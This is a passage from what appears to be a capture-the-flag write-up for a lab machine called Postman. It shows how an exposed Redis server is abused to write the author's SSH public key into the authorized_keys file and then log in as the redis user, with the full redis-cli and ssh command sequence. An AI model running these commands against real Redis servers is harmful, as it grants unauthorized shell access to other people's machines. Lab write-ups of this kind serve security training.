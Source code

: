 - a valid **username** on the machine.
- the path of .**ssh** folder on the victim machine.

we can navigate the machine  using those redis commands 

- `config get dir`  it prints the current working directory == pwd
- `config set dir <path_to_directory>` change the working directory to <path> == cd </folder>

executing

    config get dir 

![Postman/ssh-folder.png](Postman/ssh-folder.png)

Well that is great we are on .**ssh** **folder** by **default** and we assume that the **username** is **redis**

### Exploition

    on our machine 
    1- ssh-keygen -t rsa
    2- (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt 
    3- cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit

![Postman/added-key.png](Postman/added-key.png)

now we added our SSH pub  to a key called crackit , we then should add the **crackit key** value to **authorized_key** file on the server

    redis-cli -h 10.10.10.160
    10.10.10.16:6379>> config set dbfilename "authorized_keys"
    10.10.10.16:6379>> save 
    
    on our machine 
    
    ssh -i id_rsa redis@10.10.10.160
